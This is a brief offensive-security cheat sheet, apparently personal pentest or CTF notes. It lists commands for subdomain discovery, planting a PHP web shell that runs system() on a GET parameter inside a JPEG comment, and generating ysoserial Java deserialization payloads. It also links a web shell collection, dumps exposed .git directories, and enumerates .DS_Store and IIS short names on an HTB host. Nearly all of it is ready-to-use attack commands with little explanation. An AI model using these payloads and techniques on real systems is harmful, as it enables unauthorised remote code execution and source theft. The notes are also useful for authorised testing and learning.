 ## Find subdomain based on certificates


```text
https://crt.sh/
```

و 

```text
assetfinder --subs-only <domain> | httprobe
```

## Injection of php inside jpeg

```text
giftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' me.jpg
```

## Exploit deserialization of Java programs

```text
java -jar ysoserial.jar CommonsBeanutils1 'COMMAND' | base64 -w0
```

## Famous web shells

```text
https://github.com/TheBinitGhimire/Web-Shells
```

## Extracting the structure of folders and files from .git

https://github.com/arthaud/git-dumper

```text
./git-dumper.py http://example.com/.git/ example.com
```

## Extract information from .git

https://github.com/internetwache/GitTools

```text
./extractor.sh /tmp/mygitrepo /tmp/mygitrepodump
```

## Extract information from .DS_Store

```text
1- find structure
python2.7 ds_store_exp.py http://poo.htb/.DS_Store
2-enum in found path
java -jar iis_shortname_scanner.jar 2 20 http://poo.htb/dev/dca66d38fd916317687e1390a420c3fc/db/
```
